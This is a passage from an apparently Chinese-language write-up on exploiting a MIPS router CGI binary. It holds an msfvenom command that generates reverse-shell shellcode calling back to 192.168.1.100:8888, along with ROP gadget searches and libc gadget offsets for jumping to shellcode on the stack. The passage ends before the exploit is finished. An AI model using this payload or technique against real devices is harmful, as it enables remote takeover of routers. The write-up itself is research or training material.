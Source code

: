 ```bash
cat /proc/sys/kernel/randomize_va_space
1
```

![image-20221027194951326](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027194951326.png)

然后shellcode部分采用msfvenom生成

```bash
下载对应版本deb https://apt.metasploit.com/
sudo dpkg -i metasploit-framework_5.0.85+20200412093615~1rapid7-1_arm64.deb
msfvenom
```

生成shellcode，得到的shellcode不含\x00

```bash
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=192.168.1.100 LPORT=8888 --arch mipsle --platform linux -f py -o shellcode.py
```

![image-20221027200520517](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027200520517.png)

接下来就开始写exp，mips构造基本流程，使用ROP来构造类似`jmp esp`的指令

首先使用`mipsrop.stackfinder()`来寻找将栈地址放到其他寄存器的gadget

例如这里找到的

| **Address** | **Action**                | **Control Jump** |
| ----------- | ------------------------- | ---------------- |
| 0x000257A0  | addiu $a0,$sp,0x38+var_20 | jalr  $s0        |

这个gadget会将$sp寄存器的值加上0x38-0x20，放到$a0寄存器中，然后跳转到$s0寄存器中的地址去执行。

如果我们能控制$s0寄存器的值为一个跳转$a0的gadget，然后在`$sp+0x18`栈地址上布置shellcode即可利用成功。

也即是找到2个gadget，一个将shellcode地址放入寄存器，一个跳转到该寄存器执行。

在libc里找到2个跳转gadget

```python
mipsrop.stackfinder()
mipsrop.find("mov $t9,$a0")
```

分别如下

```python
jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0 
jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0
```

关于如何设置$s0为jmp_a0，涉及到如何控制s组寄存器

详细关于mips pwn题的内容可以参考这篇文章：[https://xuanxuanblingbling.github.io/ctf/pwn/2020/09/24/mips/](https://xuanxuanblingbling.github.io/ctf/pwn/2020/09/24/mips/)

在MIPS的复杂函数的序言和尾声中，会保存和恢复s组寄存器，以guest_logout_cgi函数为例
